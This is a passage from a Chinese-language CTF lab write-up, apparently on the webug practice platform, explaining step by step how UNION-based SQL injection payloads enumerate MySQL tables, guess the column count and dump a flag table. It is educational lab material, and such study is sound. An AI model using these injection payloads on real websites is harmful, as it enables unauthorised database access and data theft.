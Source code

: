 payload 4:

```php
 ?id=-1' UNION SELECT 1, concat(table_name,' , ') from information_schema.tables where table_schema = 'webug' --+
```

然后看返回的数据, 我的 flag 出现了, 然而 怎么让它显示出来了又是个问题.

首先, 不要忘记它是张表,然后, 接着**order by 猜字段数**

这里猜解字段数也是个问题.

[如何在不知道 MySQL 列名的情况下注入出数据？](https://nosec.org/home/detail/2245.html)

目前,我从这篇文章里得到启发,可以使用下面的 payload ,通过逐步递增括号内的 select 的数, 比如:select 1 union.. select 1,2 union..., 啥时候不报错了, 便是字段数. (一般字段数最多也就 10 来个吧, 要是有程序员建一张表用个 50/60 多个字段,我看他该被拿来祭天了! )

payload 5:

```php
?id=-1' UNION SELECT 1,2 from (select 1,2 union select * from webug.flag)tabl --+
```

才出来字段数,为 2 . 这就巧了, 系统 id 那个语句就是两个字段. 这不禁让人想入非非: 第一个字段不显示,只有第二个字段显示, 作为入门, 不会太坑,应该第二个字段, 就是 flag 的内容, 于是投机取巧的 payload 便产生了.(注: mysql 支持跨表联合查询)

payload 6:

```php
?id=-1' UNION SELECT * from webug.flag --+
```

然后 flag 就出来了,作为一道入门题, 现在它已经完成了自己的使命.

## 思考

作为要深入理解掌握 mysql 的人, 我们不禁思考, 万一字段数不是两个,该怎么办呢?

思路很容易就有了: 只有一个显示位, 那可以使用在 select 时, 使用 concat 函数将字段们都集中在第二个字段上显示.

根据以上知识, 构造 payload

payload 7:

```php
?id=-1' UNION SELECT 1, concat_ws('$',`1`,`2`)  from (select 1,2 union select * from webug.flag)tabl --+
```

显示位显示: 1\$21\$dfafdasfafdsadfa

刚开始我还纳闷怎么两个\$, 后来才想起来,这是两条记录. 下面的表格是以下语句的查询结果集. 其中第一行是表名,共两条记录.(因为第一条记录是我们 select 1,2 联合查询插入的.)

```sql
select 1,2 union select * from webug.flag;
```

| 1   | 2                |
| --- | ---------------- |
| 1   | 2                |
| 1   | dfafdasfafdsadfa |
